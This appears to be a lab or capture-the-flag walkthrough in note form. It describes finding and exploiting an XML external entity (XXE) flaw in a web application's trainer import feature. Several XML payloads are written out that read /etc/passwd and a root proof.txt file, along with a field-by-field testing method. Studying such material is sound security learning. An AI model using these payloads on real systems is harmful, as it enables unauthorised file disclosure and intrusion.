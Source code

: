 
when navigating to `Trainers` identified `export ` and `import` which typically means `XXE`
![[Pasted image 20241209173748.png]]
clicking `export` gives us an example of what the `XXE` looks like
![[Pasted image 20241209174224.png]]
now we need to find the vulnerable field
example payload to adjust for testing, the `&xxe;` is how you test for each field - when you see `/etc/passwd` that is the vulnerable field
```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
<entity-engine-xml>
<Product createdStamp="2021-06-04 08:15:49.363" createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<longDescription>&xxe;</longDescription>
</Product>
</entity-engine-xml>
```
used `XML FORMATTER` to properly format it
![[Pasted image 20241209174458.png]]
now we have something to work with
```xml
<?xml version="1.0"?>
<response>
	<id>1</id>
	<name>Robin Marjan</name>
	<proffesion>Web Development</proffesion>
	<bio>Robin is a web developer, mentor, and professor who is prominent in his field. He has been working in the industry for over 20 years and has seen it all. He is passionate about mentoring young developers and helping them learn the ropes. When he is not teaching or coding, he enjoys spending time with her family and friends.</bio>
	<imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
payload to work with:
`testing.xml` - this tests all fields
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe "Vulnerable to XXE">
]>
<response>
	<id>1</id>
	<name>&xxe;</name>
	<proffesion>&xxe;</proffesion>
	<bio>&xxe;</bio>
	<imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
created on kali to `import`
![[Pasted image 20241209174932.png]]
now we have a baseline of all showing `Vulnerable to XXE` we can go further to see if we can grab machine information
![[Pasted image 20241209175048.png]]
`testing2_etcpasswd.xml`
testing to see what field spits back out `/etc/passwd`
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<response>
	<id>1</id>
	<name>&xxe;</name>
	<proffesion>&xxe;</proffesion>
	<bio>&xxe;</bio>
	<imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
this crashed the entire website, and reverted,- lets test one field at a time 
`testing3_etcpasswd.xml`
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<response>
	<id>1</id>
	<name>hahaha</name>
	<proffesion>hahaha</proffesion>
	<bio>&xxe;</bio>
	<imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```
we are able to grab `/etc/passwd`
![[Pasted image 20241209175551.png]]
now lets try to grab the `proof.txt` from root

`testing4_proof.xml`
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///proof.txt">
]>
<response>
	<id>1</id>
	<name>hahaha</name>
	<proffesion>hahaha</proffesion>
	<bio>&xxe;</bio>
	<imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```

![[Pasted image 20241209175829.png]]